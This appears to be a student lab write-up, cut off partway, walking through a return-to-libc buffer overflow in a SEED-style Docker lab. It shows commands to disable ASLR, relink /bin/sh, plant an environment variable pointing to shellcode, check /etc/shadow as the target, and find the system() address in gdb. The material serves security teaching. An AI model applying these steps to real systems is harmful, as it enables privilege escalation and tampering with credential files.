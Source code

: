 ```docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab```

And in this task, we will use return-to-libc attack with environment variable. So that we also need the system() stackframe:

![image](https://github.com/user-attachments/assets/afec8b65-5745-41b4-843f-81e47b4fb245)

### 4. Turn off the ASLR and change to use an old bash
We use this code to turn off the address space randomization on stack:
```
sudo sysctl -w kernel.randomize_va_space=0
```
![image](https://github.com/user-attachments/assets/d4e24f58-7ade-4c65-8e1c-4e0ec92c6204)

And this for change to use an old bash

``` sudo ln -sf /bin/zsh /bin/sh ```

![image](https://github.com/user-attachments/assets/e32df50b-aea4-41e1-b6ee-b2cf62936819)

### 5. Create the environment variable
Before create the environment variable, we use pwd to find the current path.

And out current path is: /home/seed/seclabs

We will create the environment variable by this code:
`
export copy_file="/home/seed/seclabs/lab1/shellcode"
`
And check the path with: 
`
echo $path
`

![image](https://github.com/user-attachments/assets/5c395775-3fce-489f-9664-3f6dab67238c)

### 6. Check status of /etc/shadow privilege before we attack

We use this code to check:

``` ls -l /etc/shadow ```

![image](https://github.com/user-attachments/assets/62a727a8-3c60-474b-8ebb-306063245a26)

### 7. Find the address for the attack
We will use gdb peda to find the address

To enter to gdb, use this code:
``` gdb -q vuln.out ```

![image](https://github.com/user-attachments/assets/6e3a0fdb-e746-4134-8b22-9d919bc56667)

Then use these code to find the address:
```
start
p system
p exit
find /home/seed/seclabs/lab1/shellcode
```

![image](https://github.com/user-attachments/assets/6ce129e6-2fac-4981-8f5a-98c5ad0f3947)

We have the address: 

- system: 0xf7e50db0 => \xb0\x0d\xe5\xf7
```
